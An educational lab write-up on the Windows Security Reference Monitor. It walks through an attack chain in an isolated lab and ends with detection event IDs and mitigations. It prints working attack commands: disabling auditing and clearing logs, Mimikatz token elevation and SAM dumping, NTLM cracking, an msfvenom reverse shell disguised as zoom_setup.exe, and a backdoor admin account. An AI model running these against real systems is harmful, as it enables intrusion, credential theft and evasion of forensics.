# 🔬 Lab 01 — Windows Security Reference Monitor (SRM) Analysis

> **"The SRM doesn't know good from evil. It only knows: does this token have permission?"**

A full offensive + defensive analysis of the Windows Security Reference Monitor — covering access control enforcement, audit evasion, token impersonation, credential harvesting, and persistence. Conducted in an isolated lab environment (Windows 7 + Kali Linux).

---

## 📋 Table of Contents

- [Objective](#objective)
- [Environment](#environment)
- [Key Concept: What is the SRM?](#key-concept-what-is-the-srm)
- [Attack Chain Overview](#attack-chain-overview)
- [Phase Breakdown](#phase-breakdown)
- [Key Findings](#key-findings)
- [Defensive Takeaways](#defensive-takeaways)
- [Tools Used](#tools-used)
- [Lessons Learned](#lessons-learned)

---

## Objective

Prove that the Windows Security Reference Monitor operates as a **"Trusting Guard"** — it enforces access based purely on token identity, not intent. An attacker who steals a valid admin token is, from the SRM's perspective, a legitimate user.

The lab walks through a complete attack lifecycle:
**Baseline → Blind the logs → Infiltrate → Hijack identity → Loot credentials → Establish persistence → Erase tracks**

---

## Environment

| Component | Details |
|---|---|
| Victim Machine | Windows 7 x64 (`192.168.254.131`) |
| Attacker Machine | Kali Linux (`192.168.254.128`) |
| Network | Isolated local subnet (VMware/VirtualBox) |
| Key Tools | Mimikatz, Metasploit (msfvenom), John the Ripper, auditpol, wevtutil, smbclient |

---

## Key Concept: What is the SRM?

The **Security Reference Monitor** is a kernel-level component in Windows responsible for **access control enforcement**. Every time a process tries to access a file, registry key, or system object, the SRM checks:

```
Subject (who are you?) → Token (your identity/permissions)
       ↓
Object (what do you want?) → Security Descriptor / ACL
       ↓
Decision: ALLOW or DENY
```

**The critical weakness:** The SRM trusts the **token**, not the person holding it. Steal a token → inherit all its permissions — the SRM never knows the difference.

---

## Attack Chain Overview

```
[1]  Baseline Setup          →  Created SRM_Test share, configured SACL auditing
[2]  Telemetry Verification  →  Confirmed Event ID 4663 (object access) logging
[3]  Audit Evasion           →  Disabled file system auditing via auditpol
[4]  Log-Clear Paradox       →  Wiped logs with wevtutil — SRM still fired Event 1102
[5]  Null Session Test       →  Confirmed SRM blocks unauthenticated SMB access
[6]  Tool Staging            →  Hosted Mimikatz via Python HTTP server (web delivery)
[7]  Token Impersonation     →  Stole admin token via Mimikatz (privilege::debug → token::elevation)
[8]  Credential Harvesting   →  Dumped SAM database → cracked NTLM hash → plaintext: Liverpool
[9]  Reverse Shell           →  Generated zoom_setup.exe payload via msfvenom
[10] C2 Established          →  Metasploit multi/handler received callback on port 4444
[11] Persistence             →  Created backdoor admin account (net user hacker /add)
[12] Final Anti-Forensics    →  Cleared security log — Event 1102 still generated
```

---

## Phase Breakdown

---

### Phase 1 | Environment Setup & Network Share

Created a network share (`C:\SRM_Test`) with Full Control for Everyone — intentionally insecure to observe the SRM's DAC enforcement in action.

```cmd
mkdir C:\SRM_Test
net share SRM_Test=C:\SRM_Test /grant:Everyone,FULL
```




**Key insight:** `/grant:Everyone,FULL` tests the Discretionary Access Control (DAC) layer of the SRM — who gets access and at what level.

---

### Phase 2 | SACL Configuration (Enabling Auditing)

Configured a System Access Control List (SACL) on the C: drive to force the SRM to log all file interactions. By default Windows does **not** audit file access — this must be explicitly enabled.

`C: Properties → Security → Advanced → Auditing → Add Authenticated Users → Enable Success + Failure for all rights`




**Technical significance:** This transitions the SRM from *silent enforcement* to *active reporting* — generating Event ID **4663** for every access attempt.

> **Note:** A `pagefile.sys` kernel-lock error appears when applying SACL to C: root. This is expected — the kernel exclusively manages the pagefile and the SRM blocks security descriptor changes to it while the OS is active. This did not affect auditing of `SRM_Test`.

---

### Phase 3 | Telemetry Verification

Confirmed via Event Viewer that the SRM was generating audit logs — establishing the forensic baseline.

```
eventvwr.msc → Windows Logs → Security → Event ID 4663
```




**Confirmed:** The SRM mediates every access request and passes data to LSASS for logging. Every file interaction generates a real-time forensic record.

---

### Phase 4 | Unauthorized Access Attempt (Null Session)

Tested SRM enforcement from Kali — no credentials, simulating an external attacker.

```bash
smbclient //192.168.254.131/C$ -N
```



**SRM logic (Complete Mediation):** Checked the Security Descriptor on `C$`, found no valid ACE for an anonymous user, blocked the request.

---

### Phase 5 | Forensic Correlation

Returned to Event Viewer to verify the forensic trail left by the blocked attempt.




**Key detail:** Even a failed attack leaves a complete record — Subject (who), Object (what), Access Mask (what permission was requested). The SRM ensures **non-repudiation**.

---

### Phase 6 | Disabling Telemetry (Defense Evasion)

Silenced the SRM's reporting before initiating the active exploit.

```cmd
auditpol /set /subcategory:"File System" /success:disable
wevtutil cl security
```




**Impact:** The SRM still enforces access — but no longer *reports*. Future payload execution, file access, and data exfiltration will not generate Event 4663.

---

### Phase 7 | The "Final Shout" — Audit Policy Change Detection

Even after disabling auditing, the SRM fired a critical event *before* silence took effect.




**Events triggered:** 4719 (system audit policy changed) and 4907 (auditing settings on object changed).

**Security takeaway:** Event **4907** is a high-fidelity indicator of compromise — it signals an entity is attempting to blind forensic capabilities, almost always a precursor to a high-impact attack.

---

### Phase 8 | Anti-Forensics — The Log-Clear Paradox

Attempted to wipe all existing forensic evidence.

```cmd
wevtutil cl Security
```




**The paradox:** Log was cleared — but the SRM generated **Event ID 1102** as its final entry, identifying the exact user and timestamp of the wipe.

> A Security Log containing *only* Event 1102 is an immediate critical alert in any SOC. The absence of logs is itself evidence of compromise.

---

### Phase 9 | Tool Staging — Web Delivery Setup

With logging neutralized, staged Mimikatz for delivery using a Python HTTP server.

```bash
cd /usr/share/windows-resources/mimikatz/x64
python3 -m http.server 80
```



**Strategic goal:** Token Impersonation. Steal an admin token → the SRM stops seeing an attacker and starts seeing a trusted administrator.

---

### Phase 10 | Payload Ingress via Web Delivery

Switched to victim machine. Downloaded Mimikatz via Internet Explorer from the attacker's hosted directory.



**SRM logic:** The user has permission to browse and write to Downloads. The SRM allows it. It evaluates *permission*, never *intent*.

---

### Phase 11 | Token Impersonation (Core Attack)

Executed Mimikatz to perform token elevation — the central objective of the lab.

```
privilege::debug   →  "Privilege '20' OK" — SeDebugPrivilege acquired
token::list        →  Enumerate all active access tokens in memory
token::elevation   →  Impersonate administrator token (ID: 764685)
token::whoami      →  Verify identity hijack successful
```






**SRM's perspective after this:** Every subsequent action appears to come from a legitimate administrator. The bouncer is holding the door open — because the attacker is wearing the owner's uniform.

---

### Phase 12 | C2 Infrastructure — Payload Generation & Listener

Generated a masqueraded reverse shell and configured the Metasploit listener.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.254.128 LPORT=4444 -f exe > zoom_setup.exe
```

```msf
use exploit/multi/handler
set payload windows/shell_reverse_tcp
set LHOST 192.168.254.128 / set LPORT 4444
run
```





**Defense evasion:** Named `zoom_setup.exe` to exploit user trust. In a real breach this would be disguised as a legitimate update or HR document to bypass both human suspicion and basic AV signatures.

---

### Phase 13 | Post-Exploitation — SAM Database Dump & Hash Cracking

Operating under the hijacked admin token, dumped the SAM database and cracked the hashes offline.

```
token::whoami     →  Confirmed admin token context (ID: 764685)
lsadump::sam      →  Extracted all local NTLM hashes
```

```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# Cracked: Liverpool
```





**SRM failure point:** The SAM database is normally protected from all users. Under an admin token the SRM considers this a *legitimate* request — protection completely bypassed, not because the SRM failed, but because it was working exactly as designed.

---

### Phase 14 | Reverse Shell Established & Session Verification

Victim executed `zoom_setup.exe` → called back to Metasploit listener → full remote shell obtained.






**Network proof:** `netstat -ano` shows ESTABLISHED connection between victim `.131` and attacker `.128` on port 4444, bound to PID 2092 — the malicious process.

---

### Phase 15 | Persistence — Backdoor Account Creation

Created a permanent admin backdoor independent of the reverse shell.

```cmd
net user hacker Password123 /add
net localgroup administrators hacker /add
```




**SRM impact:** The `hacker` account now exists in the SAM database. On next login the SRM generates an Access Token containing the Administrative SID — all future access is *authorized*. The attacker has stopped being an intruder and become a user.

---

### Phase 16 | Final Audit & Trace Clearance

Despite full control, the SRM logged every persistence action. Verified the footprint then wiped it.

**Events auto-generated by Phase 15:**
- **4720** — User account created (`hacker`)
- **4722** — User account enabled
- **4728 / 4732** — Member added to Administrators group

```cmd
wevtutil cl Security
```




---

## Key Findings

| Finding | Impact | Evidence |
|---|---|---|
| Token impersonation fully bypasses SRM access control | Critical | Admin token cloned via Mimikatz, SAM dumped with no resistance |
| Audit logging can be silenced — but never without a trace | High | Event 4907 on auditpol change; Event 1102 on log clear |
| Reverse shell bypasses inbound firewall via outbound connection | High | ESTABLISHED session on port 4444 confirmed via netstat |
| Weak password (`Liverpool`) cracked from NTLM hash in seconds | High | John the Ripper + rockyou.txt |
| SRM is passive — cannot intervene without active monitoring | Medium | All events logged; no automated response triggered |

---

## Defensive Takeaways

**Event IDs every SOC analyst should monitor:**

| Event ID | Meaning | Priority |
|---|---|---|
| 4663 | Object access attempt | Medium |
| 4625 | Failed logon | Medium |
| 4907 | Auditing settings changed | **HIGH** |
| 4719 | System audit policy changed | **HIGH** |
| 1102 | Security log cleared | **CRITICAL** |
| 4720 | New user account created | High |
| 4732 | User added to Administrators | **HIGH** |

**Mitigations:**
- Forward logs to a remote SIEM in real-time — a local log that can be wiped is not a real audit trail
- Restrict `SeDebugPrivilege` — only SYSTEM should hold it
- Enforce strong password policy to survive NTLM offline cracking
- Implement application whitelisting to block Mimikatz execution
- Alert on `auditpol` and `wevtutil cl` commands in your EDR rules

---

## Tools Used

| Tool | Purpose |
|---|---|
| `Mimikatz` | Token enumeration, impersonation, SAM dump |
| `msfvenom` | Reverse shell payload generation |
| `Metasploit multi/handler` | C2 listener |
| `John the Ripper` | NTLM hash cracking |
| `auditpol` | Audit policy manipulation |
| `wevtutil` | Event log management / clearing |
| `smbclient` | SMB access testing |
| `python3 -m http.server` | Payload hosting / web delivery |

---

## Lessons Learned

1. **The SRM is only as strong as the identity it trusts.** Token-based security means credential protection is the real perimeter — not kernel enforcement.
2. **Absolute stealth is impossible on Windows.** The SRM always fires a final event when its configuration changes. Monitor for *absence* of logs, not just presence.
3. **Outbound connections bypass most firewalls.** Reverse shells work because firewalls block inbound, not outbound.
4. **OpSec matters even in labs.** Staging payloads in a cluttered directory is a real-world detection risk — isolate your workspace.
5. **Weak passwords make kernel-level security irrelevant.** A cracked NTLM hash renders all of Windows' access control meaningless.

---

*Lab conducted in an isolated, controlled environment for educational purposes. All techniques documented here are for defensive understanding and authorized security research only.*
